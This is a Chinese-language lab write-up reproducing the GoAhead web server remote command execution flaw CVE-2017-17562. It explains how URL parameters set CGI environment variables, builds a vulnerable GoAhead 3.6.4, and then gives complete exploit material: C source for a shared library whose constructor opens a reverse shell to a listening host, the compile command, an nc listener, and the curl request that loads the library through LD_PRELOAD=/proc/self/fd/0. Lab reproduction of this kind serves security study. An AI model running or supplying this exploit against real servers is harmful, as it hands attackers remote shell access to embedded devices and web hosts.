



GoAhead Server 远程命令执行漏洞 CVE-2017-17562¶
漏洞描述¶
GoAhead是一个开源(商业许可)、简单、轻巧、功能强大、可以在多个平台运行的Web Server，多用于嵌入式系统、智能设备。其支持运行ASP、Javascript和标准的CGI程序，这个漏洞就出现在运行CGI程序的时候。
GoAhead在接收到请求后，将会从URL参数中取出键和值注册进CGI程序的环境变量，且只过滤了REMOTE_HOST和HTTP_AUTHORIZATION。我们能够控制环境变量，就有很多攻击方式。比如在Linux中，LD_开头的环境变量和动态链接库有关，如LD_PRELOAD中指定的动态链接库，将会被自动加载；LD_LIBRARY_PATH指定的路径，程序会去其中寻找动态链接库。
我们可以指定LD_PRELOAD=/proc/self/fd/0，因为/proc/self/fd/0是标准输入，而在CGI程序中，POST数据流即为标准输入流。我们编译一个动态链接库，将其放在POST Body中，发送给http://target/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0，CGI就会加载我们发送的动态链接库，造成远程命令执行漏洞。
参考链接：
漏洞影响¶
环境搭建¶
Vulhub启动漏洞环境：
docker-compose up -d
启动完成后，访问http://your-ip:8080/即可看到欢迎页面。但是访问http://your-ip:8080/cgi-bin/index不能查看到Hello页面，重新搭建复现环境。
下载、编译并运行存在该漏洞的GoAhead（3.6.4）：
git clone https://github.com/embedthis/goahead.git
cd goahead
git checkout tags/v3.6.4
make #编译GoAhead
cd test # 要进到test目录下运行，其它目录下没有self.key等文件会报错
gcc ./cgitest.c -o cgi-bin/cgitest #编译用来测试的CGI文件
sudo ../build/linux-x64-default/bin/goahead #运行GoAhead Web服务器
成功启动GoAhead Web服务器：

测试cgi页面能否访问。成功访问，显示版本为3.6.4，存在CVE-2017-17562漏洞，开始漏洞复现。
$ curl http://172.16.217.185:80/cgi-bin/cgitest

漏洞复现¶
编译用于动态加载的so，首先新建exp.c。
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>
char *server_ip="192.168.174.128";
uint32_t server_port=9999;
static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void)
{
//socket initialize
int sock = socket(AF_INET, SOCK_STREAM, 0);
struct sockaddr_in attacker_addr = {0};
attacker_addr.sin_family = AF_INET;
attacker_addr.sin_port = htons(server_port);
attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
//connect to the server
if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
exit(0);
//dup the socket to stdin, stdout and stderr
dup2(sock, 0);
dup2(sock, 1);
dup2(sock, 2);
//execute /bin/sh to get a shell
execve("/bin/sh", 0, 0);
}
gcc将exp.c编译为exp.so。
gcc -shared -fPIC ./exp.c -o exp.so
在控制端监听9999端口：
nc -vvl 9999
执行POC：
curl -X POST --data-binary @exp.so http://192.168.174.128/cgi-bin/cgitest\?LD_PRELOAD\=/proc/self/fd/0
成功获取shell并执行命令：
